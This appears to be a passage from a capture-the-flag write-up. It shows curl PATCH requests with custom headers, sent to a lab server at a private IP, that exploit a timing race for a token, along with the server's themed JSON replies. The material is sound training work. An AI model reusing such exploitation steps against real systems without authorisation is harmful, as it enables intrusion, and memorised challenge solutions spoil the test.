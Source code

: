 #### Step Two: Exploitation

Simply running the following commands will trigger the vulnerability and provide you with the final token and a farewell message.

```bash
curl -X PATCH http://10.4.4.23:5004/timeout \
  -H "X-Forwarded-Mind: token1" \
  -H "X-Forwarded-Body: token2" \
  -H "X-Forwarded-Soul: token3" \
  -H "X-Perspective: acceptance" \
  -H "Content-Type: application/json" && sleep 10 && \
curl -X PATCH http://10.4.4.23:5004/timeout \
  -H "X-Forwarded-Mind: token1" \
  -H "X-Forwarded-Body: token2" \
  -H "X-Forwarded-Soul: token3" \
  -H "X-Perspective: acceptance" \
  -H "Content-Type: application/json"
```

If challengers get close to the timing but narrowly miss, they will receive the following message:

```json
{"error": "Too slow. Patience and concurrent thought solves our deepest problems."}
```

`Concurrent thought` is the giveaway in this instance.


```json
{"🪙 token": "token4","message": "🌿️You achieved peace by mastering the flow of time. "}
```

```json
{"error": f"Your timing was off. It takes anywhere from a second to a minute to change your left.",
"hint": " You are in a 🎯 race with yourself, mindhunter."}
```

```json
{"message": "First move recorded. Breathe deeply. Repeat this move but guess when you must take it."}
```

##### Step Three: Celebrate

Here is an image of a successful journey:

![Image of successful script use](img/5004-Gameover.png)
